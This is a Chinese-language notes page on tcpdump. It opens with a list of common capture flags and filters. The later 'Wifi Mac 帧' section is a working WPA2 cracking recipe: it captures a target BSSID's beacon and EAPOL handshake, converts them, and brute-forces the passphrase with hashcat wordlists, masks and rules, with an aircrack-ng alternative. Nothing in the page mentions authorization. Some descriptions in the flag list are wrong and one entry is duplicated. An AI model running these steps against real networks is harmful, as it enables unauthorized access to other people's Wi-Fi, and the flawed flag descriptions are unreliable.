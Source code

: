 ## Tcpdump
{docsify-updated}

- [Tcpdump](#tcpdump)
  - [常用参数](#常用参数)
  - [Wifi Mac 帧](#wifi-mac-帧)

### 常用参数
+ `-c [count]`: 抓取指定数量的包
+ `-i [interface]`: 指定要抓包的接口,如果-i 后没有加接口，默认抓取所有接口的流量
+ `-L`: 设置为监听模式，只支持IEEE 802.11 Wi-Fi 接口，并且只支持一些操作系统
+ `-w [file]`: 指定将抓包数据写入一个文件而不是打印出来, `tcpdump port 80 -w capture_file`
+ `-U`: 指定缓存，如果设置了-w，那么抓包数据会立即写入文件，没有指定-w，数据会被缓存然后输出
+ `-X`: 以十六进制格式输出
+ `-S`: 抓取整个包
+ `-nn`: 不解析主机名或端口名
+ `-vvv`: 输出更多
+ `host [ip]`: 过滤指定IP的包
+ `src [ip]`: 根据源地址过滤
+ `dst [ip]`: 根据目的地址过滤
+ `port [port]`: 查看指定端口的流量
+ `src port [port]`: 查看指定源端口的流量, `tcpdump port 8050`
+ `dst port [port]`: 查看指定目的端口的流量， `tcpdump src port 8050`
+ `dst port [port]`: 查看指定目的端口的流量， `tcpdump dst port 8050`
+ `tcpdump [protocol]`: 查看指定协议的流量，`tcpdump icmp`


### Wifi Mac 帧
<center><img src="pics/wifi-frame.jpg" width="60%"></center>

软件安装：
+ brew install hashcat
+ brew install hcxtools
+ brew install wireshark

1. export BSSID=18:9e:2c:64:88:3c
2. networksetup -listallhardwareports
3. sudo airport -z
4. sudo airport -c153
5. sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i en0 -w beacon.cap
6. sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
7. mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
8. hcxpcapngtool -o hashfile capture.cap
9. hashcat -m 22000 hashfile wpa2-wordlists/full.txt
10. hashcat -m 22000 -a3 capture.hccapx "?d?d?d?d?d?d?d?d"
11. hashcat -m 22000 hashfile wpa.txt -r Probable-Wordlists/Analysis-Files/ProbWL-547-rule-probable-v2.rule

https://hashcat.net/cap2hashcat/

aircrack-ng -1 -a 1 -b 18:9e:2c:64:88:3c 


1. Install aircrack-ng:`brew install aircrack-ng`
2. `sudo airport -s`
3. `sudo airport en1 sniff [CHANNEL]`
4. New Terminal Window: `aircrack-ng -1 -a 1 -b [TARGET_MAC_ADDRESS] [CAP_FILE]`
// Notes: the cap_file will be located in the /tmp/airportSniff*.cap.